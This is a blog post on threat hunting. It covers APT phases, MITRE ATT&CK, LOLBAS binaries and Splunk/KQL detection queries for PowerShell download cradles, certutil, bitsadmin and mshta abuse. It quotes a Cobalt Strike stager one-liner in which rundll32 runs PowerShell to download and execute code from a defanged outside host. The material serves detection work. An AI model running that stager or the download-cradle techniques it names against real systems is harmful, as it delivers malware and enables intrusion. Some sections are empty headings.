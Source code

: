 ```yaml
---
title: "Hunting for Evil" 
layout: "post"
---
```


__Threat__ __hunting__ - the act of aggressively intercepting, tracking and eliminating cyber adversaries as early as possible in the __Cyber__ __Kill__ __Chain__.
To prevent, detect and resolve an __APT__, you must recognize its characteristics. 
Most APTs follow the same basic life cycle of infiltrating a network, expanding access and achieving the goal of the attack, which is most commonly stealing data by extracting it from the network.




1) In the first phase, usually referred to __"Initial__ __Access"__, advanced persistent threats often gain access through social engineering techniques. One indication of an APT is a phishing email that selectively targets high-level individuals like senior executives or technology leaders, often using information obtained from other team members that have already been compromised. Email attacks that target specific individuals are called “spear-phishing.”

2) In the second phase, usually referred to __"Lateral__ __Movement"__ attackers insert malware into an organization’s network to move to the second phase, expansion. They move laterally to map the network and gather credentials such as account names and passwords in order to access critical business information.
Additional entry points are often established to ensure that the attack can continue if a compromised point is discovered and closed.

3) In the third phase, usually referred to __"Exfiltration"__, cybercriminals typically store stolen information in a secure location within the network until enough data has been collected. They then extract, or “exfiltrate” it without detection. 

Threats are human. Focused and funded adversaries will not be countered by security boxes on the network alone. Threat hunters are actively searching for threats to prevent or minimize damage before it happens.


The Threat Hunting concept can be easily summarized with the __Locard's__ __Exchange__ __Principle__, which says that: "Every Contact leave a trace". 
Thinking about our attacker this makes perfect sense.  

<p align="center">
  <img src="/assets/posts/2021-11-01-Hunting-for-Evil/pyramidofpain.JPG">
</p>


## 1) Introduction to Threat hunting 

In traditional security monitoring approach, most of the blue teamers look out for threats based on the alerts being triggered out by SIEM or other security devices.
In addition to alert–driven approach, why can’t we add a continuous process for finding stuff from the data without any alerts driving us for incident. 
That’s the process of Threat hunting, proactively looking out for threats in network. 
Those threats which are not identified by your existing security solutions or attacks which bypassed your solutions can be hunted down using this process.

As a baseline the following steps are needed to perform hunting activities: 

- Develop Hypothesis – Hypothesis means what u want to look for, like looking out for powershell commands making connection to internet etc.
- Gather data – Based on the hypothesis, look out for data you need to collect for hunting.
- Test hypothesis and gather hunting – Once data is collected, look out for threats based on behavior, search queries .
- Automate certain tasks – Threat hunting can never be fully automated but semi-automated.
- Operationalize Threat Hunting – Now, instead of ad-hoc hunting, operationalize your hunting program so that we can perform continuous threat hunting.

Most of the threat hunting platforms uses `“Attack MITRE” adversary model. MITRE ATT&CK™` is a globally-accessible knowledge base of adversary tactics and
techniques based on real-world observations. 

The `Mitre` team has listed down all those adversary behaviors and attack vectors carries out by an adversary on a victim machine. 
It provides you with description as well as some references regarding the threats, based on historical outbreak. 
It uses `TTP’s Tactics, Techniques and Procedures` and maps it to __Cyber__ __Kill__ __chain__.




Below some basic example of practical threat hunting approach based on hypothesis.

- `Word.exe` or `excel.exe` file opening powershell which runs `mimikatz` command for hash dumping – To check this hypothesis, first look for data, do we have
proper data to hunt for this hypothesis, then hunt for __winword.exe__ __execl.exe__ process creating __powershell.exe__, and command line containing (
`mimikatz`).

- Downloading files from internet (Other than browser) – Look out for process which are used to download files from internet other than browser,
`certutil.exe` , `hh.exe` can be used for the same.

- `Powershell download cradles` event_data.CommandLine:(*powershell* *pwsh* *SyncAppvPublishingServer*) AND event_data.CommandLine:(*BitsTransfer* *webclient* *DownloadFile* *downloadstring* *wget* *curl* *WebRequest* *WinHttpRequest* iwr irm "*internetExplorer.Application*" "*Msxml2.XMLHTTP*" "*MsXml2.ServerXmlHttp*")

- Using `certutil,exe` for downloading event_data.CommandLine:(*certutil*) AND event_data.CommandLine:(*urlcach* *url* *ping*) AND event_data.CommandLine:(*http* *ftp*)


__Note:__ Testing 


## 2) Basic LOLBAS Hunting with Splunk 

The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.

- General term used when an attacker abuses built-in binaries and scripts of an OS install or common application installation
- These techniques may be harder to detect, evade controls, blend in with normal use etc.
- `LOLBAS` typically provides examples of how these tools are invoked at the command line.

Below some example of typical `LOLBAS` software abused by APT.

- powershell.exe
- bitsadmin.exe
- certutil.exe
- psexec.exe
- wmic.exe
- mshta.exe
- mofcomp.exe
- cmstp.exe
- windbg.exe
- cdb.exe
- msbuild.exe
- csc.exe
- regsvr32.exe

__Note:__ The detections rules listed below are specific to out environment. Always adapt the query according to your needs

In the case study presented below the threat actor uses `Cobalt Strike` beacon for their post-exploitation activities with a __PowerShell__ stager generated from the Cobalt Strike framework.
The telemetry shows this attack launched by abusing `rundll32.exe` and the command line invoking __JScript__ code to download a web page and launch the initial __PowerShell__ stager.

```js
rundll32.exe javascript:\\..\\mshtml,RunHTMLApplication ;document.write();new%20ActiveXObject(WScript.Shell).Run(powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('hxxps://stjohnplece.co/lll/webax.js');
```

The first PowerShell stage, webax.js decompresses the second-stage PowerShell code that loads the first shellcode stage into memory and creates a specific request to download what seems like a standard jQuery library.


### 1) Bitsadmin Download File

The following query identifies Microsoft Background Intelligent Transfer Service utility bitsadmin.exe using the transfer parameter to download a remote object. 
In addition, look for download or upload on the command-line, the switches are not required to perform a transfer.

```powershell 
bitsadmin download activity:

	DeviceProcessEvents
	| where ProcessVersionInfoOriginalFileName == "bitsadmin.exe"
	| where ProcessCommandLine contains "/addfile" or "transfer"
	
bitsadmin create a persistent job activity:

	DeviceProcessEvents
	| where ProcessVersionInfoOriginalFileName == "bitsadmin.exe"
	| where ProcessCommandLine contains "/SetNotifyCmdLine"


```

# 1) powershell

# 2) rundll32

# 3) mshta

The following analytic identifies "mshta.exe" execution with inline protocol handlers. "JavaScript", "VBScript", and "About" are the only supported options when invoking HTA content directly on the command-line.

```powershell
| tstats `security_content_summariesonly` count values(Processes.process) as process values(Processes.parent_process) as parent_process min(_time) as firstTime max(_time) as lastTime from datamodel=Endpoint.Processes where `process_mshta` (Processes.process=*vbscript* OR Processes.process=*javascript* OR Processes.process=*about*) by Processes.user Processes.process_name Processes.original_file_name Processes.parent_process_name Processes.dest  | `drop_dm_object_name(Processes)` | `security_content_ctime(firstTime)`| `security_content_ctime(lastTime)` | `detect_mshta_inline_hta_execution_filter`
```


# 4) Certutil Download With Urlcache And Split Arguments

Certutil.exe may download a file from a remote destination using -urlcache. This behavior does require a URL to be passed on the command-line. In addition, -f (force) and -split (Split embedded ASN.1 elements, and save to files) will be used.

```powershell
| tstats `security_content_summariesonly` count min(_time) as firstTime max(_time) as lastTime from datamodel=Endpoint.Processes where `process_certutil` Processes.process=*urlcache* Processes.process=*split* by Processes.dest Processes.user Processes.parent_process Processes.process_name Processes.process Processes.process_id Processes.original_file_name Processes.parent_process_id | `drop_dm_object_name(Processes)` | `security_content_ctime(firstTime)` | `security_content_ctime(lastTime)` | `certutil_download_with_urlcache_and_split_arguments_filter`
```